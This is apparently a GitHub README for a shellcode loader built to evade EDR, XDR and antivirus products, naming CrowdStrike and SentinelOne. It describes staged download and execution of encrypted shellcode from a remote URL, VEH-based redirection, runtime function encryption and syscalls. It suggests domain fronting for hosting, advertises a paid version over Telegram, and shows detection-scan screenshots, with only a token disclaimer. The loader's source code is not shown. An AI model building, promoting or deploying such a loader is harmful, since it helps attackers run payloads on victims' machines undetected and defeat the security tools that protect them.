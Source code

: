 # EDR-XDR-AV-Bypass-Shellcode-Loader
- CURRENTLY BYPASSES CROWDSTRIKE & SENTINEL ONE RUNTIME.
- SCROLL DOWN TO FIND DETECTIONS (RUNTIME & STATIC TIME ANALYSIS)
---
- Want paid version? contact me at : https://t.me/codepulze
- <a href="https://t.me/pulzetools"><img src="https://img.shields.io/badge/Join%20my%20Telegram%20group-2CA5E0?style=for-the-badge&logo=telegram&labelColor=db44ad&color=5e2775"></a>
- [Join our Discord server!](https://discord.gg/NRTdwYUtdQ)

---

## Overview
This project provides an advanced shellcode loader capable of bypassing major EDRs (Endpoint Detection and Response), XDRs, and AV (Antivirus) systems. The shellcode is executed in a staged manner with techniques such as memory protection manipulation, VEH (Vectored Exception Handling), and system calls to evade detection.

## Features
- **Staged Shellcode Execution**: Downloads and executes shellcode in multiple steps to minimize detection.
- **Custom Memory Protection**: Evading modern AntiVirus memory scanners by encrypting a function during runtime, then decrypting it when the function needs to be executed, then re-encrypting the function once the function has finished executing
- **Vectored Exception Handling (VEH)**: Handles memory access violations and redirects execution flow.
- **Encrypted Shellcode**: Shellcode is encrypted during download and decrypted in-memory before execution.
- Custom ```GetProcessAddress``` & ```GetModuleHandleW```
## Prerequisites
- Windows Operating System (x64)
- Visual Studio or compatible C++ compiler
- Internet connection (for staged shellcode download)

## Usage

### Build
1. Clone the repository:
2. Open the project in Visual Studio or your preferred C++ environment (i use vsc).
3. Compile the project in Release mode for a production-ready executable.

### Execution
1. Host the shellcode binary on a remote server (e.g., Discord, AWS, or any public URL, works best with domain fronting).
2. Update the shellcode URL in the `main` function:
   ```cpp
   std::wstring url = L"https://your-hosted-url/shellcode.bin";
   ```
3. Run the executable:
   ```bash
   hack.exe
   ```

## DETECTIONS (scanner.to / kleenscan)
![image](https://github.com/user-attachments/assets/0afe46a9-9aa7-450c-9ec1-85e898ae4487)
![image](https://github.com/user-attachments/assets/b8d4a182-e35e-46f0-a052-04e488674069)
![image](https://github.com/user-attachments/assets/0a3b4308-014e-4dc3-ae99-6faf52b77fc6)

## Disclaimer
This tool is intended for educational and research purposes only. Misuse of this tool for malicious purposes is strictly prohibited and against the law. The author does not condone or support any illegal activity.

